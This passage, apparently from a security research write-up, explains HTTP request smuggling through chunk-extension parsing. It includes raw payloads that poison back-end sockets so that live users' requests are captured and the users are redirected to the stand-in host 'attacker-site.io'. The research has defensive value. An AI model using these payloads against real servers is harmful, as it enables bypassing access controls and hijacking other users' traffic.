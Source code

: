 From the proxy's perspective, it is now receiving two pipelined requests, so it will happily return two responses. However, what the proxy considers to be the second pipelined request is in fact interpreted as the body of the smuggled request on the back-end. As such, we will obtain the response to the `GET /admin` request in the second response.

An important caveat here is that the payload above will not work if the front-end decides to forward the requests over two separate back-end connections. In this situation, we can obtain the response by instead issuing a series of `GET /` follow-up requests after delivering the payload. One of these should eventually be routed through the same connection as the payload and consequently be served the response to the smuggled request. Of course, this carries with it the risk of another client reaching the poisoned socket first. Incidentally, that is what we will deliberately exploit in the next section.

#### Exploiting live users
A very similar technique can be used to corrupt the requests sent by other live clients of the server. Instead of sending follow-up HTTP requests ourselves, we smuggle a request with an oversized `Content-Length` and wait for another user's request to reach the same socket. The server will interpret the victim's request as the body of the smuggled request, causing the victim to receive the response that the back-end server intended for us.

This is particularly impactful if we have a way of eliciting a harmful response from the server. For example, an otherwise unexploitable header-based open redirect can be used to redirect random live users to a site of our choosing. If the application for instance responds with a `301 Redirect` with a `Location` header reflecting the value of the `X-Forwarded-Host` request header, live users of an EXT.TERM-vulnerable application could be redirected to `attacker-site.io` using the payload below.

<pre><code>GET / HTTP/1.1<span class="http-line-break">\r\n</span>
Host: localhost<span class="http-line-break">\r\n</span>
Transfer-Encoding: chunked<span class="http-line-break">\r\n</span>
<span class="http-line-break">\r\n</span>
5f;<span class="http-line-break">\n</span>
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA<span class="http-line-break">\r\n</span>
0<span class="http-line-break">\r\n</span>
<span class="http-line-break">\r\n</span>
GET / HTTP/1.1<span class="http-line-break">\r\n</span>
Host: localhost<span class="http-line-break">\r\n</span>
X-Forwarded-Host: attacker-site.io<span class="http-line-break">\r\n</span>
Content-Length: 100<span class="http-line-break">\r\n</span>
<span class="http-line-break">\r\n</span>
0<span class="http-line-break">\r\n</span>
<span class="http-line-break">\r\n</span>
</code></pre>

Once the front-end forwards another request over the same back-end connection, the server will interpret it as the body of the smuggled request and respond accordingly, leading to the victim being served the malicious redirect. On the back-end, the request looks as shown below.

<pre><code>GET / HTTP/1.1<span class="http-line-break">\r\n</span>
Host: localhost<span class="http-line-break">\r\n</span>
X-Forwarded-Host: attacker-site.io<span class="http-line-break">\r\n</span>
Content-Length: 100<span class="http-line-break">\r\n</span>
<span class="http-line-break">\r\n</span>
0<span class="http-line-break">\r\n</span>
<span class="http-line-break">\r\n</span>
<span class="http-highlight http-highlight-two">GET /some/path HTTP/1.1<span class="http-line-break">\r\n</span><span class="http-highlight-text">victim's request</span>
Host: localhost<span class="http-line-break">\r\n</span>
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)...<span class="http-line-break">\r\n</span>
...</span></code></pre>
